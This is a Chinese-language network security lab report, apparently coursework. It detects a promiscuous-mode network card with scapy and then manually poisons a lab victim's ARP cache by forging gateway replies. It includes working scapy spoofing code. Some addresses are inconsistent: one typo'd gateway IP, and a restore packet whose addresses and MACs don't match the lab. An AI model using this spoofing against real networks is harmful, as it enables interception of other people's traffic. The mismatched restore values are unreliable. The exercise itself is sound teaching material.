








## 网络监听

### 实验环境

+ 网关`Debian-Gateway`
  + 172.16.111.1
  + 08:00:27:53:fa:69 / eth0
+ 攻击者主机`Kali-Attacker`
  + 172.16.111.140
  + 08:00:27:2a:7a:40 / eth0
+ 受害者主机`Kali-victim1`
  + 172.16.111.128
  + 08:00:27:44:1b:1e / eth0

### 检测局域⽹中的异常终端

#### 实验过程

+ 在受害者主机上检查网卡的「混杂模式」是否启用
  ```bash
  ip link show eth0
  ```

  

+ 在攻击者主机上用scapy的promiscping发送Arp包，发现没有回应
  ```bash
  pkt = promiscping("172.16.111.128")
  ```

  

+ 回到受害者主机上开启网卡的**混杂模式**,输出结果里多出来了`PROMISC` 

  ```bash
  ip link set eth0 promisc on

  ip link show eth0
  ```
  
  
  
+ 回到攻击者主机上的`scapy`交互式终端继续执行命令,发现收到了回复，抓包结果也验证了这一点,于是发现了处于混杂模式的网卡
  ```bash
  pkt = promiscping("172.16.111.128")

  # 实验完成后在受害者主机上将混杂模式关闭
  ip link set eth0 promisc off
  ```

  

  

---

###  手工单步“毒化”目标主机的 ARP 缓存

#### 实验过程

+ 以下代码在攻击者主机上的 `scapy` 交互式终端完成
  
  ```bash
  # 构造一个 ARP 请求
  arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.168.111.1")

  # 查看构造好的 ARP 请求报文详情
  arpbroadcast.show()

  # 发送这个 ARP 广播请求
  recved = srp(arpbroadcast, timeout=2)

  # 网关 MAC 地址如下
  gw_mac = recved[0][0][1].hwsrc
  ```
  
  
  
+ 伪造网关的`ARP`响应包,发送给受害者主机
   
  ```bash
  # 准备发送给受害者主机 172.16.111.128
  # ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
  arpspoofed=Ether(dst="08:00:27:44:1b:1e")/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.128", hwdst="08:00:27:2a:7a:40")

  # 发送上述伪造的 ARP 响应数据包到受害者主机
  sendp(arpspoofed)

  # 此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址
  ip neigh
  ```
    
  

+ 恢复受害者主机的 `ARP` 缓存记录
  
  ```bash
  ## 伪装网关给受害者发送 ARP 响应
  restorepkt1 = ARP(op=2, psrc="192.168.0.1", hwsrc="08:00:27:2a:4b:04", pdst="192.168.0.102", hwdst="08:00:27:aa:ff:3e")

  sendp(restorepkt1, count=100, inter=0.2)

  # 在受害者主机上尝试 ping 网关
  ping 172.16.111.1
  # 静候几秒 ARP 缓存刷新成功，退出 ping
  # 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
  ip neigh
  ```
  
  

### 参考

+ [课本第四章实验](https://c4pr1c3.gitee.io/cuc-ns/chap0x04/exp.html )


  


